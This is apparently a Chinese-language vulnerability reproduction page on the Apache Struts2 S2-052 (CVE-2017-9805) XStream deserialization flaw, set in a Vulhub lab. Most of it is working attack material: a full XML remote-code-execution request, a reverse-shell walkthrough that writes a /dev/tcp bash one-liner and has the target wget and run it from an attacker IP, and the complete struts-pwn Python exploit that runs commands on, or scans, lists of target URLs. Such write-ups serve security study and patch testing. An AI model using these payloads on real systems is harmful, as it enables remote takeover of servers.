


Apache Struts2 S2-052 远程代码执行漏洞 CVE-2017-9805¶
漏洞描述¶
Struts2-Rest-Plugin 是让 Struts2 能够实现 Restful API 的一个插件，其根据 Content-Type 或 URI 扩展名来判断用户传入的数据包类型，有如下映射表：
| 扩展名 | Content-Type | 解析方法 |
|---|---|---|
| xml | application/xml | xstream |
| json | application/json | jsonlib 或 jackson(可选) |
| xhtml | application/xhtml+xml | 无 |
| 无 | application/x-www-form-urlencoded | 无 |
| 无 | multipart/form-data | 无 |
jsonlib 无法引入任意对象，而 xstream 在默认情况下是可以引入任意对象的（针对 1.5.x 以前的版本），方法就是直接通过 xml 的 tag name 指定需要实例化的类名：
<classname></classname>
//或者
<paramname class="classname"></paramname>
所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在 Struts2 库中适用的 gedget。
漏洞详情:
漏洞影响¶
影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
环境搭建¶
Vulhub 执行以下命令启动 s2-052 测试环境：
docker-compose build
docker-compose up -d
启动环境后，访问 http://your-ip:8080/orders.xhtml 即可看到 showcase 页面。
漏洞复现¶
由于 rest-plugin 会根据 URI 扩展名或 Content-Type 来判断解析方法，所以我们只需要修改 orders.xhtml 为 orders.xml 或修改 Content-Type 头为 application/xml，即可在 Body 中传递 XML 数据。
所以，最后发送的数据包为：
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415
<map>
<entry>
<jdk.nashorn.internal.objects.NativeString>
<flags>0</flags>
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
<dataHandler>
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
<is class="javax.crypto.CipherInputStream">
<cipher class="javax.crypto.NullCipher">
<initialized>false</initialized>
<opmode>0</opmode>
<serviceIterator class="javax.imageio.spi.FilterIterator">
<iter class="javax.imageio.spi.FilterIterator">
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
<string>touch</string>
<string>/tmp/awesome_poc</string>
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
<filter class="javax.imageio.ImageIO$ContainsFilter">
<method>
<class>java.lang.ProcessBuilder</class>
<name>start</name>
<parameter-types/>
</method>
<name>foo</name>
</filter>
<next class="string">foo</next>
</serviceIterator>
<lock/>
</cipher>
<input class="java.lang.ProcessBuilder$NullInputStream"/>
<ibuffer></ibuffer>
<done>false</done>
<ostart>0</ostart>
<ofinish>0</ofinish>
<closed>false</closed>
</is>
<consumed>false</consumed>
</dataSource>
<transferFlavors/>
</dataHandler>
<dataLen>0</dataLen>
</value>
</jdk.nashorn.internal.objects.NativeString>
<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
</entry>
<entry>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>
以上数据包成功执行的话，会在 docker 容器内创建文件 /tmp/awesome_poc，执行 docker-compose exec struts2 ls /tmp/ 即可看到。

反弹 shell¶
编写 shell 脚本并启动 http 服务器：
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
上传 shell.sh 文件的命令为：
wget 192.168.174.128/shell.sh
上传 shell.sh 文件的 Payload 为：
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
<string>wget</string>
<string>192.168.174.128/shell.sh</string>
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
执行 shell.sh 文件的命令为：
bash shell.sh
执行 shell.sh 文件的 Payload 为：
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
<string>bash</string>
<string>shell.sh</string>
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
成功接收反弹 shell：

漏洞 EXP¶
#!/usr/bin/env python3
# coding=utf-8
# *****************************************************
# struts-pwn: Apache Struts CVE-2017-9805 Exploit
# Author:
# Mazin Ahmed <Mazin AT MazinAhmed DOT net>
# This code is based on:
# https://github.com/rapid7/metasploit-framework/pull/8924
# https://techblog.mediaservice.net/2017/09/detection-payload-for-the-new-struts-rest-vulnerability-cve-2017-9805/
# *****************************************************
from __future__ import print_function
from builtins import str
import argparse
import requests
import sys
# Disable SSL warnings
try:
import requests.packages.urllib3
requests.packages.urllib3.disable_warnings()
except Exception:
pass
if len(sys.argv) <= 1:
print('[*] CVE: 2017-9805 - Apache Struts2 S2-052')
print('[*] Struts-PWN - @mazen160')
print('\n%s -h for help.' % (sys.argv[0]))
exit(0)
parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url",
dest="url",
help="Check a single URL.",
action='store')
parser.add_argument("-l", "--list",
dest="usedlist",
help="Check a list of URLs.",
action='store')
parser.add_argument("-c", "--cmd",
dest="cmd",
help="Command to execute. (Default: 'echo test > /tmp/struts-pwn')",
action='store',
default='echo test > /tmp/struts-pwn')
parser.add_argument("--exploit",
dest="do_exploit",
help="Exploit.",
action='store_true')
args = parser.parse_args()
url = args.url if args.url else None
usedlist = args.usedlist if args.usedlist else None
url = args.url if args.url else None
cmd = args.cmd if args.cmd else None
do_exploit = args.do_exploit if args.do_exploit else None
def url_prepare(url):
url = url.replace('#', '%23')
url = url.replace(' ', '%20')
if ('://' not in url):
url = str('http') + str('://') + str(url)
return(url)
def exploit(url, cmd, dont_print_status_on_console=False):
url = url_prepare(url)
if dont_print_status_on_console is False:
print('\n[*] URL: %s' % (url))
print('[*] CMD: %s' % (cmd))
cmd = "".join(["<string>{0}</string>".format(_) for _ in cmd.split(" ")])
payload = """
<map>
<entry>
<jdk.nashorn.internal.objects.NativeString>
<flags>0</flags>
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
<dataHandler>
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
<is class="javax.crypto.CipherInputStream">
<cipher class="javax.crypto.NullCipher">
<initialized>false</initialized>
<opmode>0</opmode>
<serviceIterator class="javax.imageio.spi.FilterIterator">
<iter class="javax.imageio.spi.FilterIterator">
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
{0}
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
<filter class="javax.imageio.ImageIO$ContainsFilter">
<method>
<class>java.lang.ProcessBuilder</class>
<name>start</name>
<parameter-types/>
</method>
<name>foo</name>
</filter>
<next class="string">foo</next>
</serviceIterator>
<lock/>
</cipher>
<input class="java.lang.ProcessBuilder$NullInputStream"/>
<ibuffer/>
<done>false</done>
<ostart>0</ostart>
<ofinish>0</ofinish>
<closed>false</closed>
</is>
<consumed>false</consumed>
</dataSource>
<transferFlavors/>
</dataHandler>
<dataLen>0</dataLen>
</value>
</jdk.nashorn.internal.objects.NativeString>
<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
</entry>
<entry>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>
""".format(cmd)
headers = {
'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn_CVE-2017-9805)',
# 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
'Referer': str(url),
'Content-Type': 'application/xml',
'Accept': '*/*'
}
timeout = 3
try:
output = requests.post(url, data=payload, headers=headers, verify=False, timeout=timeout, allow_redirects=False).text
except Exception as e:
print("EXCEPTION::::--> " + str(e))
output = 'ERROR'
return(output)
def check(url):
url = url_prepare(url)
print('\n[*] URL: %s' % (url))
initial_request = exploit(url, "", dont_print_status_on_console=True)
if initial_request == "ERROR":
result = False
print("The host does not respond as expected.")
return(result)
payload_sleep_based_10seconds = """
<map>
<entry>
<jdk.nashorn.internal.objects.NativeString>
<flags>0</flags>
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
<dataHandler>
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
<is class="javax.crypto.CipherInputStream">
<cipher class="javax.crypto.NullCipher">
<initialized>false</initialized>
<opmode>0</opmode>
<serviceIterator class="javax.imageio.spi.FilterIterator">
<iter class="javax.imageio.spi.FilterIterator">
<iter class="java.util.Collections$EmptyIterator"/>
<next class="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" serialization="custom">
<com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
<default>
<__name>Pwnr</__name>
<__bytecodes>
<byte-array>yv66vgAAADIAMwoAAwAiBwAxBwAlBwAmAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFu
dFZhbHVlBa0gk/OR3e8+AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEA
EkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABNTdHViVHJhbnNsZXRQYXlsb2FkAQAMSW5uZXJD
bGFzc2VzAQA1THlzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5
bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94
c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2Vy
aWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFs
YW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUv
eG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9u
cwcAJwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29t
L3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3Vu
L29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7
KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1B
eGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFs
L3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGdldHMu
amF2YQwACgALBwAoAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNs
ZXRQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRp
bWUvQWJzdHJhY3RUcmFuc2xldAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQA5Y29tL3N1bi9vcmcv
YXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAfeXNvc2VyaWFs
L3BheWxvYWRzL3V0aWwvR2FkZ2V0cwEACDxjbGluaXQ+AQAQamF2YS9sYW5nL1RocmVhZAcAKgEA
BXNsZWVwAQAEKEopVgwALAAtCgArAC4BAA1TdGFja01hcFRhYmxlAQAeeXNvc2VyaWFsL1B3bmVy
MTY3MTMxNTc4NjQ1ODk0AQAgTHlzb3NlcmlhbC9Qd25lcjE2NzEzMTU3ODY0NTg5NDsAIQACAAMA
AQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0A
AAAGAAEAAAAuAA4AAAAMAAEAAAAFAA8AMgAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0A
AAAGAAEAAAAzAA4AAAAgAAMAAAABAA8AMgAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAa
AAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA3AA4AAAAqAAQAAAABAA8AMgAA
AAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAiAAMA
AgAAAA2nAAMBTBEnEIW4AC+xAAAAAQAwAAAAAwABAwACACAAAAACACEAEQAAAAoAAQACACMAEAAJ
</byte-array>
<byte-array>yv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFu
dFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEA
EkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2Vy
aWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2
YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xh
bmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRp
bC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQAB
AAAABSq3AAGxAAAAAgANAAAABgABAAAAOwAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAA
AAoAAQACABYAEAAJ</byte-array>
</__bytecodes>
<__transletIndex>-1</__transletIndex>
<__indentNumber>0</__indentNumber>
</default>
<boolean>false</boolean>
</com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
</next>
</iter>
<filter class="javax.imageio.ImageIO$ContainsFilter">
<method>
<class>com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl</class>
<name>newTransformer</name>
<parameter-types/>
</method>
<name>foo</name>
</filter>
<next class="string">foo</next>
</serviceIterator>
<lock/>
</cipher>
<input class="java.lang.ProcessBuilder$NullInputStream"/>
<ibuffer/>
<done>false</done>
<ostart>0</ostart>
<ofinish>0</ofinish>
<closed>false</closed>
</is>
<consumed>false</consumed>
</dataSource>
<transferFlavors/>
</dataHandler>
<dataLen>0</dataLen>
</value>
</jdk.nashorn.internal.objects.NativeString>
<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
</entry>
<entry>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>
"""
headers = {
'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn_CVE-2017-9805)',
# 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
'Referer': str(url),
'Content-Type': 'application/xml',
'Accept': '*/*'
}
timeout = 8
try:
requests.post(url, data=payload_sleep_based_10seconds, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
# if the response returned before the request timeout.
# then, the host should not be vulnerable.
# The request should return > 10 seconds, while the timeout is 8.
result = False
except Exception:
result = True
return(result)
def main(url=url, usedlist=usedlist, cmd=cmd, do_exploit=do_exploit):
if url:
if not do_exploit:
result = check(url)
output = '[*] Status: '
if result is True:
output += 'Vulnerable!'
else:
output += 'Not Affected.'
print(output)
else:
exploit(url, cmd)
print("[$] Request sent.")
print("[.] If the host is vulnerable, the command will be executed in the background.")
if usedlist:
URLs_List = []
try:
f_file = open(str(usedlist), 'r')
URLs_List = f_file.read().replace('\r', '').split('\n')
try:
URLs_List.remove('')
except ValueError:
pass
f_file.close()
except Exception as e:
print('Error: There was an error in reading list file.')
print("Exception: " + str(e))
exit(1)
for url in URLs_List:
if not do_exploit:
result = check(url)
output = '[*] Status: '
if result is True:
output += 'Vulnerable!'
else:
output += 'Not Affected.'
print(output)
else:
exploit(url, cmd)
print("[$] Request sent.")
print("[.] If the host is vulnerable, the command will be executed in the background.")
print('[%] Done.')
if __name__ == '__main__':
try:
main(url=url, usedlist=usedlist, cmd=cmd, do_exploit=do_exploit)
except KeyboardInterrupt:
print('\nKeyboardInterrupt Detected.')
print('Exiting...')
exit(0)